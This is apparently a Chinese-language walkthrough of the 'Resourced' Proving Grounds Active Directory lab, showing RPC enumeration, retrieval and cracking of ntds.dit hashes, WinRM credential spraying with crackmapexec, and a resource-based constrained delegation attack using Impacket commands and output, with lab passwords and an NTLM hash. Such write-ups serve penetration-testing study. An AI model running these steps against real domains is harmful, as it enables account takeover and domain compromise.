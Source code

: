 ```yaml
---
title: Proving Grounds Practive-Resourced-Windows_Active
date: 2025-05-28 20:00:00
tags: 红队
categories: 红队打靶-Windows_Active
---
```


## nmap

![image-20250529100346742](./Resourced-Windows-Active/image-20250529100346742.png)

## RPC

rpc存在匿名认证登录，登陆之后可以枚举一些信息，扩展有关用户及其描述的信息量中有一个给新人的提示

![image-20250529102017257](./Resourced-Windows-Active/image-20250529102017257.png)

```
HotelCalifornia194!
```

## SMB

使用匿名访问smb没有可以访问的信息

尝试使用RPC枚举出的用户和提示信息来访问smb

![image-20250529102514895](./Resourced-Windows-Active/image-20250529102514895.png)

该提示信息就是`V.Ventz`的密码，但是该用户不能远程登录

![image-20250529105508817](./Resourced-Windows-Active/image-20250529105508817.png)

访问`Password Audit`目录，将其中的内容下载下来

![image-20250529105521634](./Resourced-Windows-Active/image-20250529105521634.png)

|          | 位置                              | 作用                                                         |
| -------- | --------------------------------- | ------------------------------------------------------------ |
| sam      | C:\Windows\System32\config\SAM    | 存储本地用户账户信息（**NTLM**）                             |
| system   | C:\Windows\System32\config\SYSTEM | 它包含解密 SAM 所需的加密密钥                                |
| ntds.dit | C:\Windows\NTDS\NTDS.dit          | Active Directory 的数据库文件,存储整个域的用户账户、组、计算机、组策略、密码哈希等,只能在 **域控制器（Domain Controller）** 上找到 |

可以破解ntds.dit，得到密码的NTLM值，可以直接使用NTLM值登录

![image-20250529105452681](./Resourced-Windows-Active/image-20250529105452681.png)

但是尝试管理员登录之后这期中的NTLM值应该有过期和错误的，使用awk将其中的账号和密码进行分离，然后使用`crackmapexec`爆破`winrm`

![image-20250529113109128](./Resourced-Windows-Active/image-20250529113109128.png)

```
crackmapexec winrm 192.168.168.175 -u users -p password --continue-on-success --no-bruteforce

--no-bruteforce		会将每个用户与相应密码进行匹配，不会尝试所有组合
--continue-on-success  成功之后不会停止，继续爆破
```

爆破得到一个可以远程登录的账号密码

![image-20250529113835420](./Resourced-Windows-Active/image-20250529113835420.png)

## 提权

![image-20250529143341161](./Resourced-Windows-Active/image-20250529143341161.png)

可以使用基于资源的委派攻击

![image-20250529160344021](./Resourced-Windows-Active/image-20250529160344021.png)

创建新机器

```
addcomputer.py resourced.local/l.livingstone -dc-ip 192.168.168.175 -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'r4j3sh$' -computer-pass 'Rajesh@Mondal'
```

![image-20250529154300685](./Resourced-Windows-Active/image-20250529154300685.png)

现在我将使用 getST.py 获取 RESOURCEDC 的服务票据。

```
┌──(kali㉿kali-linux-2022-2)-[~/offsec/resourced]
└─$ rbcd.py -action write -delegate-to "RESOURCEDC$" -delegate-from "r4j3sh$" -dc-ip 192.168.168.175 -hashes :19a3a7550ce8c505c2d46b5e39d6f808 resourced/l.livingstone
Impacket v0.12.0.dev1+20230909.154612.3beeda7 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] r4j3sh$ can now impersonate users on RESOURCEDC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     r4j3sh$      (S-1-5-21-537427935-490066102-1511301751-4101)
```

服务票据已保存到我们的工作目录中，文件名为 Administrator.ccache

```
┌──(kali㉿kali-linux-2022-2)-[~/offsec/resourced]
└─$ getST.py -spn cifs/resourcedc.resourced.local -impersonate Administrator resourced/r4j3sh\\$:'Rajesh@Mondal' -dc-ip 192.168.168.175 
Impacket v0.12.0.dev1+20230909.154612.3beeda7 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

添加到我们的 kerberos 缓存文件。

```
┌──(kali㉿kali-linux-2022-2)-[~/offsec/resourced]
└─$ export KRB5CCNAME=$PWD/Administrator.ccache
```

可以使用`klist`查看已经缓存的票据，要使用`klist`需要安装`Kerberos`工具包

`apt install krb5-wallet-server`

```
┌──(kali㉿kali-linux-2022-2)-[~/offsec/resourced]
└─$ klist
Ticket cache: FILE:/home/kali/offsec/resourced/Administrator.ccache
Default principal: Administrator@resourced

Valid starting       Expires              Service principal
01/07/2024 08:42:23  01/07/2024 18:42:22  cifs/resourcedc.resourced.local@RESOURCED.LOCAL
        renew until 01/08/2024 08:42:22
```

需要将`resourcedc.resourced.local`添加到`/etc/hosts`中

![image-20250529162940099](./Resourced-Windows-Active/image-20250529162940099.png)
